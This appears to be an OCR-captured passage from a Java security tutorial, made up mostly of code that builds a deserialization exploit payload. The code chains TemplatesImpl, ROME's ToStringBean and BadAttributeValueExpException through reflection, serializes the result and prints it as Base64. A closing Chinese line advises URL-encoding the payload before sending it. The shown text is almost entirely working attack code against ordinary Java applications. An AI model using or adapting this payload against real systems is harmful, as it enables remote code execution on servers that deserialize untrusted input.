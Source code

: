 ```java
        Field tfactory = c.getDeclaredField("_tfactory");
        tfactory.setAccessible(true);
        tfactory.set(templates, new TransformerFactoryImpl());

        ToStringBean bean = new ToStringBean(Templates.class, templates);
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(123);

        Field val = BadAttributeValueExpException.class.getDeclaredField("val");
        val.setAccessible(true);
        val.set(badAttributeValueExpException, bean);

        //序列化
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(badAttributeValueExpException);
        oos.close();
        System.out.println(new String(Base64.getEncoder().encode(baos.toByteArray())));
    }
}

```

最后需要注意的是在发送数据时记得进行一次URL编码